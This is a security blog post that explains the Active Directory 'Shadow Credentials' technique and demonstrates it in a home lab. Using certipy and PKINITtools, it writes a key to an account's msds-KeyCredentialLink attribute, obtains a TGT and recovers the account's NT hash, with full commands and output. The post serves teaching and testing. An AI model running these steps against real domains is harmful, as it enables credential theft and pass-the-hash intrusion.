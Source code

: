```yaml
---
layout: post
title: Abusing the msds-KeyCredentialLink Propertie in Active Directory - Understanding Shadow Credentials
subtitle: Using Certipy To Exploit msds-KeyCredentialLink Remotley
tags: [AD]
---
```


# What is a Shadow Credential 
Within Active Directory, both user and computer objects possess an attribute named `msds-KeyCredentialLink`, which serves as a storage location for raw public keys. These public keys can be used in Kerberos to obtain a Ticket Granting Ticket (TGT). Adding a credential/public key to this attribute is known as a "Shadow Credential." A Shadow Credential can then be used in conjunction with a Kerberos extension called Service for User to Self (S4U2Self) to obtain the NT hash of that user. 

When using public key authentication a client can obtain a special Service Ticket that contains their NTLM hash when trying to access a resource that requires it. Inside that Service Ticket is the the Privilege Attribute Certificate (PAC) that contains an entity with the encrypted NTLM hash. We cannot decrypt this because it is encrypted using the key of the service that it is issued for. 

The S4U2Self mechanism allows a user to obtain a Service Ticket for themselves, giving us the ability to decrypt the PAC. S4U2Self Service Tickets are encrypted using the targets session key.

There are two requirements that must be present in order to perform this type of attack
- Active Directory Certificate Services installed on at least a 2016 Domain Controller
- A compromised account that has rights to the `msds-KeyCredentialLink` attribute to whatever user/computer you want to exploit

# Demo
*For this demo I will do the exploitation from a remote kali machine rather than on a windows host.

In my home lab I set up a new account called `sauron` and gave `frodo` write and read permissions for the attribute `msds-KeyCredentialLink`
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/writeshadow.png)

ly4k wrote a great tool called [certipy](https://github.com/ly4k/Certipy) that takes advantage of public Active Directory Certificate Services (AD CS). It has a option called `shadow` that can; list, add, remove ,clear, show info, and auto pwn the `msDS-KeyCredentialLink` attribute. 

Using the `add` command lets me add a new raw public key to the `sauron` account
```
┌──(root㉿kali)-[~]
└─# certipy shadow add -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa'
[*] Adding Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Saved certificate and private key to 'sauron.pfx'
```

Looking at the property on suaron's account a new attribute is present 
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadow.png)

Next we can use `gettgtpkinit.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) to request a TGT using the `.pfx` file generated from `certipy`. It will give us a TGT and the AS-REP encryption key we will use de decrypt the PAC.
```
┌──(root㉿kali)-[~]
└─# python3 gettgtpkinit.py -cert-pfx sauron.pfx lotr.local/sauron out.ccache
2023-05-11 17:24:03,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-05-11 17:24:04,026 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-05-11 17:24:04,034 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-05-11 17:24:04,034 minikerberos INFO     9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
INFO:minikerberos:9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
2023-05-11 17:24:04,037 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Cache the ticket in our current session
```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=out.ccache
```

Finally `getnthash.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py), will use the TGT to request a PAC using S4U2Self. It will also decrypt the PAC **giving us the NT hash**.
```
┌──(root㉿kali)-[~]
└─# python3 getnthash.py -key 9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421 lotr.local/sauron
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0f7421a8a3d0b0adcafa6862fd766818
```

`certipy`, has an `auto` command that will add a new Key to the target, authenticate with the key to get the TGT and NT hash, and then clean up.
```
certipy shadow auto -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a'
[*] Adding Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Authenticating as 'sauron' with the certificate
[*] Using principal: sauron@lotr.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'sauron.ccache'
[*] Trying to retrieve NT hash for 'sauron'
[*] Restoring the old Key Credentials for 'sauron'
[*] Successfully restored the old Key Credentials for 'sauron'
[*] NT hash for 'sauron': 0f7421a8a3d0b0adcafa6862fd766818
```

These NT hashes can be cracked offline or used in a pass the hash attack. In the event that you have permissions to do this on a computer account you could take an additional step and use `impacket-ticketer` to gain a Service Ticket as HOST or CIFS as an administrator and authenticate to the machine. 

